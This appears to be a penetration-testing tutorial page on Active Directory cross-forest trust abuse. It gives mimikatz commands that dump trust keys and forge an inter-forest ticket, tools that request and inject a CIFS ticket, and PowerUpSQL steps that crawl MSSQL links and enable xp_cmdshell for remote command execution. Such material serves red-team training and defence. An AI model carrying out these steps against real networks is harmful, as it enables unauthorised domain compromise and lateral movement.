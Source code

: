 ```yaml
---
title: Cross Forest Attacks
category: Active Directory
order: 6
---
```


In this section we are going to abuse trusts between forests.

# Trust Key

Technically, when you use a trust, there is a communication between the domain controller of your domain and the domain controller of the target domain (or of an intermediary domain).

How communication is made varies depending of the protocol that is being used (which could be NTLM, Kerberos, etc), but in any case, the domain controllers needs to share a key to keep the communications secure. This key is known as the trust key and it's created when the trust is established.

When a trust is created, a trust account is created in the domain database as if it were an user (with the name finished in $). The trust key is then stored as if it was the password of the trust user (in the NT hash and Kerberos keys).

# Across Forest using Trust Tickets

A trust ticket is a key which a DC of the other forest uses to decrypt the TGT presented by the attacker. That is the only check. We are going to execute a similar attack such as golden ticket but using the *trust ticket* instead of the _krbtgt_ hash.

To list the Trust tickets we can use mimikatz:

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

So an inter-forest TGT can be forged:

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /rc4:cd3fb1b0b49c7a56d285fffdd1399231 /service:krbtgt /target:extcorp.local /ticket:C:\temp\trust_forest_tkt.kirbi"'
```

Now we can request a TGS for `cifs` service on the dc of the trusted forest.

```powershell
.\asktgs.exe c:\temp\trust_forest_tkt.kirbi CIFS/dc01.extcorp.local
```
And inject the ticket on the current session:

```powershell
.\kirbikator.exe lsa .\CIFS.dc01.extcorp.local.kirbi
```
> **Note**: We can not list all the file system of other forest. We can only list shared folders.

```
ls \\dc01.extcorp.local\share\
```

# Trust Abuse with MSSQL Server

MSSQL Servers are generally deployed in plenty windows domain. SQL Servers provide very good options for lateral movement as domain users can be mapped to dabase roles.

A fantastic tool to abuse MSSQL is `PowerUpSQLl`: 

* [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
```powershell
Import-Module .\PowerUpSQL.psd1
```

> **Note**: Important! Write `Import-Module` and import which have **PSD1** extension.

We can discover SQL servers:

```powershell
Get-SQLInstanceDomain
```

We can check accessibility:

```powershell
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```
Gather information:

```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

## Database Links

A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of databases links between Microsoft SQL Servers, it is possible to execute stored procedures which means RCE.

Database link works even across forest trusts.

```powershell
Get-SQLServerLink -Instance mssql.corp.local -Verbose
```

So we can execute queries on the remote Server Link, see if this server has others links and above, instead of doing it manually that will be explained in a note, exists a script that crawls all the mssql server links.

```powershell
Get-SQLServerLinkCrawl -Instance mssql.corp.local -Verbose
```

> **Note**: Manual way:
>
> See if has a server link:
> `select * from master..sysservers`
>
> Openquery() function can be used to run quieries on a linked database:
> `select * from openquery('sql2.corp.local', 'select * from master..sysservers')`

To execute commands from MSSQL server we need to use `xp_cmdshell`. If `rpcout` is enabled `xp_cmdshell` can be enabled using:

```
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "other-sql"
```

And finally:

```powershell
Get-SQLServerLinkCrawl -Instance mssql.corp.local -Query "exec master..xp_cmdshell 'whoami'"
```

